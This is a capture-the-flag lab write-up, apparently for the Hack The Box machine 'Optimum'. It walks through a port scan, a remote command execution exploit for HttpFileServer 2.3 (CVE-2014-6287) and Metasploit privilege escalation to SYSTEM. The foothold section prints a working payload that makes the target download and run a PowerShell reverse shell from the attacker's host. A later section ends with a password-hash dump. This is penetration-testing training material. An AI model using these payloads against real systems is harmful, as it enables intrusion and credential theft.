

# Optimum

## Machine Info


## Recon

### port

- Windows Server 2012
- HttpFileServer 2.3

```console
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%), Microsoft Windows Server 2012 R2 (89%), Microsoft Windows Server 2012 (88%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Embedded Standard 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### web: http file server



## Foothold

`HttpFileServer 2.3` => **CVE-2014-6287**

- https://www.exploit-db.com/exploits/39161

- https://www.exploit-db.com/exploits/49125

- https://github.com/randallbanner/Rejetto-HTTP-File-Server-HFS-2.3.x---Remote-Command-Execution

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6287

**Exploit**: execute arbitrary file (reverse powershell)

**Payload**:

```console
http://10.129.163.135:80/?search=%00{.+exec|c%3A%5Cwindows%5CSysNative%5CWindowsPowershell%5Cv1.0%5Cpowershell.exe%20IEX%20%28New-Object%20Net.WebClient%29.DownloadString%28%27http%3A//10.10.16.9/powershell-reverse-shell.ps1%27%29.}
```

```console
└─╼$ python 49125.py 10.129.163.135 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.9/powershell-reverse-shell.ps1')"
http://10.129.163.135:80/?search=%00{.+exec|c%3A%5Cwindows%5CSysNative%5CWindowsPowershell%5Cv1.0%5Cpowershell.exe%20IEX%20%28New-Object%20Net.WebClient%29.DownloadString%28%27http%3A//10.10.16.9/powershell-reverse-shell.ps1%27%29.}

---------------------------------------------------------------------------------

└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.9] from (UNKNOWN) [10.129.163.135] 49260
SHELL> whoami
optimum\kostas
SHELL> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

SHELL> systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 μμ
System Boot Time:          17/2/2024, 11:11:49 μμ
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.282 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.368 MB
Virtual Memory: In Use:    1.135 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
						   ...
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.163.135
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

## Privilege Escalation

Enumerate local privilege escalation suggester:

```console
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.129.163.135 - Collecting local exploits for x64/windows...
[*] 10.129.163.135 - 190 exploit checks are being tried...
...
[*] 10.129.163.135 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/bypassuac_sluihijack                     Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/cve_2019_1458_wizardopium                Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 8.1/Windows Server 2012 R2 build detected!
 7   exploit/windows/local/cve_2021_40449                           Yes                      The service is running, but could not be validated. Windows 8.1/Windows Server 2012 R2 build detected!
 8   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 9   exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.
```

Try these exploits and find one exploitable: `ms16_032_secondary_logon_handle_privesc` &` CVE-2016-0099`

- https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc/
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-0099

```console
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.16.9:4321
[+] Compressed size: 1160
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\COvlTMIpm.ps1...
[*] Compressing script contents...
[+] Compressed size: 3729
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1272

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[ref] cannot be applied to a variable that does not exist.
At line:200 char:3
+         $bB = [Ntdll]::NtImpersonateThread($iHS, $iHS, [ref]$wNXaM)
+         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (wNXaM:VariablePath) [], RuntimeException
    + FullyQualifiedErrorId : NonExistingVariableReference

[!] NtImpersonateThread failed, exiting..
[+] Thread resumed!

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
Cannot convert argument "ExistingTokenHandle", with value: "", for "DuplicateToken" to type "System.IntPtr": "Cannot co
nvert null to type "System.IntPtr"."
At line:259 char:2
+     $bB = [Advapi32]::DuplicateToken($znx, 2, [ref]$wrt)
+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodException
    + FullyQualifiedErrorId : MethodArgumentConversionInvalidCastArgument

[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

fQJ4O30bEybY994aPttR1CrZismuMSPe
[+] Executed on target machine.
[*] Sending stage (175686 bytes) to 10.129.163.135
[*] Meterpreter session 2 opened (10.10.16.9:4321 -> 10.129.163.135:52686) at 2024-02-11 08:31:09 -0500
[+] Deleted C:\Users\kostas\AppData\Local\Temp\COvlTMIpm.ps1

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTcbPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d90b270062e8b9f118ab8e0f733df391:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
kostas:1001:aad3b435b51404eeaad3b435b51404ee:fb7c6aab6468ef0383f97a12b78ab8ac:::
```

## Exploit Chain

port scan -> vulnerable httpfileserver 2.3 -> kostas shell -> post local privilege esca suggester -> ms16_032 & CVE-2016-0099 -> System shell
